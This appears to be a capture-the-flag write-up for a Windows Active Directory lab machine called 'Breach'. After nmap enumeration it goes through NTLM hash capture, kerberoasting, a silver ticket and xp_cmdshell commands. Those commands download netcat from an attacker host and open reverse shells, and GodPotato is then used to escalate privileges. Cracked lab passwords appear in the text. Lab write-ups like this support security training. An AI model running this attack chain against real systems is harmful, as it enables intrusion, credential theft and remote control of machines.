






# Enumeration
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-04-02 15:35:39Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: breach.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.10.66.37:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.10.66.37:1433: 
|     Target_Name: BREACH
|     NetBIOS_Domain_Name: BREACH
|     NetBIOS_Computer_Name: BREACHDC
|     DNS_Domain_Name: breach.vl
|     DNS_Computer_Name: BREACHDC.breach.vl
|     DNS_Tree_Name: breach.vl
|_    Product_Version: 10.0.20348
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-04-02T15:27:12
|_Not valid after:  2054-04-02T15:27:12
|_ssl-date: 2024-04-02T15:36:27+00:00; 0s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: breach.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-04-02T15:36:27+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=BREACHDC.breach.vl
| Not valid before: 2024-04-01T15:26:10
|_Not valid after:  2024-10-01T15:26:10
| rdp-ntlm-info: 
|   Target_Name: BREACH
|   NetBIOS_Domain_Name: BREACH
|   NetBIOS_Computer_Name: BREACHDC
|   DNS_Domain_Name: breach.vl
|   DNS_Computer_Name: BREACHDC.breach.vl
|   DNS_Tree_Name: breach.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-04-02T15:35:47+00:00
Service Info: Host: BREACHDC; OS: Windows; CPE: cpe:/o:microsoft:windows
5985/tcp  open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf     .NET Message Framing
49664/tcp open  msrpc      Microsoft Windows RPC
49667/tcp open  msrpc      Microsoft Windows RPC
49669/tcp open  msrpc      Microsoft Windows RPC
56060/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
56282/tcp open  msrpc      Microsoft Windows RPC
56292/tcp open  msrpc      Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Enumerating SMB shares found a share we can write in.

# Exploitation
We can try capturing NTLM hashes as it seems to be used regularly.
We can make a malicious url:

Now we get a hash for Julia.Wong which upon cracking we got the password as *Computer1*.

Now using bloodhound.py we ingest the data:
```
bloodhound.py -dns-tcp -u 'Julia.Wong' -p 'Computer1' -ns 10.10.103.38 -c all -d breach.vl
```

And notice a **kerberoastable** user
Using impackets **GetUserSPNs**:
```
GetUserSPNs.py -dc-ip 10.10.103.38 breach.vl/Julia.Wong:Computer1 -request-user svc_mssql
```
We get the hash for this user which we can crack: *svc_mssql : Trustno1*

## Silver Ticket
Now trying a silver ticket attack:
```
ticketer.py -nthash 69596C7AA1E8DAEE17F8E78870E25A5C -domain-sid S-1-5-21-2330692793-3312915120-706255856 -domain breach.vl administrator
```
We get the ticket.

Now using mssqlclient to login as administrator:
```
KRB5CCNAME=administrator.ccache mssqlclient.py breach.vl -k -no-pass -windows-auth
```

To get a reverse shell:
```
EXEC xp_cmdshell 'powershell.exe wget http://10.8.1.208/nc64.exe -OutFile c:\Users\Public\nc.exe"'
```

```
EXEC xp_cmdshell 'c:\Users\Public\nc.exe -e cmd.exe 10.8.1.208  4445'
```

We get a shell:


## PrivEsc

We can check privileges:


We can use GodPotato and checking .NET version:
```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\full" /v version
```

Transfer  Godpotato
```
wget 'http://10.8.1.208/GodPotato-NET4.exe' -o
```
Use godpotato for privesc:
```
.\GodPotato-NET4.exe -cmd "nc64.exe -t -e C:\Windows\System32\cmd.exe  10.8.1.208 9005"
```

